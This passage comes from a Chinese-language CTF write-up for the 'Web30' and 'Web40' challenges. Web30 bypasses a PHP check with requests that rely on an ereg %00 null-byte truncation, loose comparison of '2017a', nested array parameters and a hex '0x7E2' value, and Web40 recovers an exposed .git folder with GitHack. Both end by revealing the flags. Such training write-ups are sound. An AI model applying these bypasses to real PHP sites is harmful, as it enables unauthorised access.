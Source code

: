 ```php
                        die('No way!');
                    }
                    if ($val == 2018) {
                        die($flag);
                    }
                }
            }
        }
    }
    else echo '<p class="alert">Invalid password</p>';
}
```

首先要满足的条件是 get 中的 ctf 参数为 `!#?&@` ，而默认情况下 `#` 以及其后面的东西不会被当成参数传递给服务器，所以我直接用 python 写参数了

```
>>> requests.get('http://ctf.xjnu.edu.cn:9900/web30/',params={'ctf':'!#?&@'}).text
'<p class="alert">Go on!</p>'
```

ereg 方法存在 `%00` 截断漏洞，因此可以将 password 分为两部分，前面一部分是符合正则条件的字符，后面再加上 `--` 满足第二个要求

```
>>> requests.get('http://ctf.xjnu.edu.cn:9900/web30/',params={'ctf':'!#?&@','password':'0'+chr(0)+'--'}).text
'<p class="alert">Go on!</p>'
```

然后参数 xjnu 需要是一个数组，数组中的 bar1 不能是数字但是他要大于 2016，这里我们将 bar1 设置为`2017a`，根据 PHP 特色，`'2017a'>2016`

```
>>> requests.get('http://ctf.xjnu.edu.cn:9900/web30/',params={'ctf':'!#?&@','password':'0'+chr(0)+'--','xjnu[bar1]':'2017a'}).text
'<p class="alert">Go on!</p>'
```

然后 bar2 需要是一个数组，并且他的第一个元素也是一个数组，并且他有三个元素。此外 bar2 中还需要有一个元素等于 2018，但是其元素本身不允许存在字符 2018，因此这里用十六进制来表示

```
>>> requests.get('http://ctf.xjnu.edu.cn:9900/web30/',params={'ctf':'!#?&@','password':'0'+chr(0)+'--','xjnu[bar1]':'2017a','xjnu[bar2][0][]':'0','xjnu[bar2][1]':'1','xjnu[bar2][2]':'0x7E2'}).text
'<p class="alert">Go on!</p>flag{Php_iS_Mag1c!}'
```

## Web40

题目没有给太多的提示，简单扫描之后发现了 .git 文件夹，通过 GitHack 找到了两个文件

```
> cat flag_2333_666.php
<?php
//$flag="{.git_H0w_Many_Y0u_kn0w!}"

> cat index.php
<?php
echo "flag is here";
```
